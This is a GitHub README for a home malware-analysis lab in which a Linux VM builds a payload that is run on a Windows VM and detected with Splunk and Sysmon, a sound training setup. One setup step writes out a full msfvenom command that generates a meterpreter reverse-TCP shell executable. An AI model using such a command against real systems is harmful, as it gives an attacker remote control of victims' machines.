 # Cybersecurity-Home-Lab:-Malware-Analysis

This repository documents the setup and execution of a cybersecurity home lab designed to simulate and analyze malware activity in a controlled environment. The lab utilizes VirtualBox, Splunk, Sysmon, and msfvenom to demonstrate malware creation, detection, and analysis.

## Overview

The home lab is a self-contained environment built to:

- Simulate real-world cyberattacks.
- Analyze malicious activity using monitoring tools.
- Gain hands-on experience in threat detection and endpoint security.

## Features

- **Virtualized Environment**: Created isolated Windows and Linux virtual machines using VirtualBox.
- **Threat Simulation**: Developed custom malware using msfvenom on the Linux machine.
- **Monitoring and Analysis**: Configured Splunk and Sysmon on the Windows machine to detect and analyze system events and malicious activity.
- **Command Execution**: Simulated a successful breach and analyzed command execution on the Windows machine.

## Tools and Technologies

- **VirtualBox**: Used to set up and manage the virtual machines.
- **Windows Virtual Machine**: Hosted Splunk and Sysmon for event monitoring.
- **Linux Virtual Machine**: Used for creating malware with msfvenom.
- **Splunk**: Enabled real-time analysis of logs and system activities.
- **Sysmon**: Provided detailed logs of system events for analysis.
- **msfvenom**: Created custom malware payloads for attack simulations.

## Setup Instructions

1. **Install VirtualBox**

- Download and install [VirtualBox](https://www.virtualbox.org/)
- Create two virtual machines (Windows and Linux)

2. **Configure the Windows Machine**

- Install [Splunk](https://www.splunk.com/) and set up an instance
- Install and configure [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

3. **Set up Linux Machine**

- Install necessary dependencies for msfvenom
- Create a custom malware payload using msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > malware.exe`

4. **Simulate the Attack**

- Transfer the malware payload from the Linux machine to the Windows machine
- Execute the malware on the Windows machine

5. **Monitor and Analyze**

- Use Splunk to monitor logs and detect the malicious activity
- Analyze system events recorded by Sysmon

## Learning Outcomes

- Practical experience with endpoint monitoring and detection tools.
- Understanding of malware creation and behavior.
- Hands-on knowledge of setting up and using Splunk and Sysmon for security analysis.
- Skills in managing virtualized environments for cybersecurity simulations.
